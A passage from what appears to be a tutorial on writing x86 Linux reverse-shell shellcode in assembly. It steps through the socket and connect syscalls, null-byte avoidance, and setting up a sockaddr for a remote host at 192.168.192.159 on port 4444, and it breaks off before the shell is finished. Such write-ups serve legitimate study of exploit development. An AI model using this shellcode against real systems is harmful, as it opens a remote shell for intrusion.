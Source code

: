 ```
; Clearing registers
XOR EAX, EAX    ; set EAX to zero
XOR EBX, EBX    ; set EBX to zero
XOR ECX, ECX    ; set ECX to zero
XOR EDX, EDX    ; set EDX to zero
```

When registers are set to zero we can start writing assembly code to call socket syscall:

```
MOV AX, 0x167  ; 0x167 is hex syscall to socket
MOV BL, 2      ; set domain argument
MOV CL, 1      ; set type argument
MOV DL, 6      ; set protocol argument
INT 0x80       ; interrupt

MOV EDI, EAX   ; as result of socket syscall descriptor is saved in EAX
               ; descriptor will be used with several other syscalls so
               ; we need to save it some how for later use. One way is
               ; to save it in EDI register which is least likely to be 
               ; used in following syscalls
```

Next step is to prepare registers for accept syscall. According to `man 2 connect`, connect syscall takes 3 arguments:

```
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
> The  connect() system call connects the socket referred to by the file descriptor sockfd to the address specified by addr. The addrlen argument specifies the size of addr.  The format of the address in addr is determined by the address space of the socket sockfd; see socket(2) for further details.
> If the socket sockfd is of type SOCK_DGRAM, then addr is the address to which datagrams are sent by default, and the only address from which datagrams are received.   If  the  socket  is  of type SOCK_STREAM or SOCK_SEQPACKET, this call attempts to make a connection to the socket that is bound to the address specified by addr.
> Generally, connection-based protocol sockets may successfully connect() only once; connectionless protocol sockets may use  connect()  multiple  times  to change  their  association.   Connectionless sockets may dissolve the association by connecting to an address with the sa_family member of sockaddr set to AF_UNSPEC (supported on Linux since kernel 2.2).
> addrlen specifies the size, in bytes, of the address structure pointed to by addr.

First we need to clear EAX register so that we can place a syscall number (0x16A) in it. We will place it in AX to avoid null bytes.

```
XOR EAX, EAX
MOV AX, 0x16A
```

Then we need to push struct on the stack. 
Since stack grows from higher addresses to lower addresses, last argument needs to be pushed first and due to little endian format values needs to be pushed in reverse order.  
Prototype code:
```
saddress.sin_addr.s_addr = htonl("192.168.192.159"); // remote host IP address
saddress.sin_port = htons(4444);                     // port 4444
saddress.sin_family = AF_INET;                       // address family (ip v4)
```
There is also 4th parameter: sin_zero wish is always zero. So in order to push these values onto the stack we have to use push in following order:

